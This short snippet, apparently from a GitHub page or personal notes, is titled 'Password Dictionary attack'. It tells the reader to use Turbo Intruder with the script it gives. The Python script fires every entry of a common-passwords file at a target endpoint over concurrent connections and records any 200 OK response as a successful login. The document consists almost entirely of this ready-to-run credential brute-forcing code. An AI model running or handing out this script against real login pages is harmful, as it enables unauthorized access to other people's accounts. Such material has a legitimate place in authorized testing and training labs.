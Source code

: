 ### Password Dictionary attack

Use Turbo intruder with this script, and specialLists script (see downloads)
```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    # Check all the words in the UNIX dictionary
    for word in open('C:\\Users\\taylo\\Downloads\\common_passwords.txt'):
        engine.queue(target.req, word.rstrip())

# Success for any 200 response
def handleResponse(req, interesting):
    if '200 OK' in req.response:
        table.add(req)
```
